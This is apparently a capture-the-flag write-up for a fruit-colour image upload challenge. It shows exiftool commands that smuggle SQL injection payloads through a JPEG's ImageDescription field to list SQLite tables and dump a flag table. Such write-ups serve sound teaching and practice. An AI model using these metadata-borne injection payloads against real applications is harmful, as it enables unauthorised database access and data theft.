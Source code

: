 # Fruit Color Query

Author: reyes

> So my friend made a website that identifies the color of the image of the fruit you upload... but he isn't using any kind of smart image reader so the fruit-color pair is probably written into a database somewhere. Maybe try uploading the image attached?

**Difficulty: Easy**

## Solution

As hinted (source not given), we try uploading the attached image, which tells us that the apple is red.

Running exiftool:
```
File Type: JPEG
File Type Extension: jpg
MIME Type: image/jpeg
JFIF Version: 1.01
Resolution Unit: inches
X Resolution: 300
Y Resolutio: 300
Exif Byte Order: Little-endian (Intel, II)
Image Description: apple
Orientation: Horizontal (normal)
Copyright: Dimitris66
Rights: Dimitris66
Asset ID: 185262648
Creator: Dimitris66
Description: Red apple with leaf on white background. Apple portions
```

Suspiciously, Image Description is `apple` and Description contains `apple` and `red`.

By trial and error, only Image Description matters. Setting it to "banana" gives `yellow`.

`exiftool -ImageDescription="a' UNION SELECT name FROM sqlite_master;-- " exploit.jpg`:`flag`

This tells us there is a flag table (fruits table not shown due to `cursor.fetchall()[0][0]`) 

`exiftool -ImageDescription="a' UNION SELECT * FROM flag;-- " exploit.jpg`:`ACSI{sql1_i5_d34d?_1_d0n't_r341ly_Kn0w}`

This challenge may be pretty guessy since:
1. Check exiftool
2. Find which of description, image description, caption actually matter
3. Realise its a sqlite db
4. Find the flag table and realise its one column selected each
